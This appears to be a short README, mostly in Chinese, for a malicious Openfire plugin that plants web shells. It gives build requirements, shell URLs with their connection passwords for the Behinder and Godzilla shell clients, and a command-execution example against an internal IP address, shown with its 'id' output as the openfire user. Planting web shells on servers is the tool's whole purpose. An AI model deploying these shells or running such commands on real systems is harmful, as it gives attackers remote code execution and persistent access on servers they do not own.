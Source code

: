 # build requirements:
ant1.9
jdk1.6

上传 openfire_shells/src/plugins/test/bin 下的test.jar后


```
usages:

/plugins/test/re2.jsp pass 冰蝎2.0 
/plugins/test/re3.jsp rebeyond 冰蝎3.0
/plugins/test/god.jsp pass  哥斯拉v1.0 =>> v3.03

./src/plugins/test/src/web/god.jsp

/plugins/servlet/chropper?
/plugins/servlet/test?
```

漏洞利用：

0x01 执行系统命令

`http://10.20.31.189:9090/plugins/test/cmd.jsp?pwd=023&i=id

```
uid=102(openfire) gid=105(openfire) groups=105(openfire)

```

冰蝎由于请求的包返回在
<div id="jive-main-content">标签内，客户端导致无法获取相关数据，提示“页面存在，但是无法获取秘钥”
